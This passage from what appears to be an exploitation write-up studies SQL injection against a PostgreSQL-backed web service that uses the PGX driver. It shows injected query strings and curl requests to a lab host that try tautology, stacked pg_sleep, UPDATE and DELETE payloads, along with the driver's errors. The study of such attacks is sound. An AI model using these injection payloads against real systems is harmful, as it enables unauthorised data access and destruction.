 ```sh
    {"id":14,"text":"Find your inner peace."},
    {"id":15,"text":"Dance in the rain"}
]
```
<PRE>

At this moment, our SQL query will look something like:

</PRE>
```sql
SELECT id, text FROM phrases WHERE id=-1 OR 1=1
```
<PRE>

Luckily for us, PostgreSQL drivers should easily support stacked queries,
opening a wide range of attack vectors for us. We should be able to append
additional queries separated by a semicolon like:

</PRE>
```sql
SELECT id, text FROM phrases WHERE id=-1; SELECT pg_sleep(5);
```
<PRE>

Let's just try it... Oh no, what is that?

</PRE>
```sh
$ curl -G "http://172.23.16.127:8000/phrases" \
--data-urlencode "id=-1; SELECT pg_sleep(5)"
{
    "error":"ERROR: cannot insert multiple commands into a prepared
                statement (SQLSTATE 42601)"
}
```
<PRE>


---[ 1.1 - No stacked queries for you

It turns out that the PGX developers decided to **secure** driver use
by converting any SQL query to a prepared statement under the hood.

This is done to disable any stacked queries whatsoever[2]. It works
because the the PostgreSQL database itself does not allow multiple queries
inside a single prepared statement[3].

So, we are suddenly constrained to a single SELECT query! The DBMS will
reject any stacked queries, and nested UPDATE or DELETE queries are also
prohibited by the SQL syntax.

</PRE>
```sh
$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 OR (UPDATE * phrases SET text='lol')"
{
    "error":"ERROR: syntax error at or near \"SET\" (SQLSTATE 42601)"
}

$ curl -G "http://172.23.16.127:8000/phrases" --data-urlencode \
"id=-1 OR (DELETE * FROM phrases)"
{
    "error":"ERROR: syntax error at or near \"FROM\" (SQLSTATE 42601)"
}
```
<PRE>
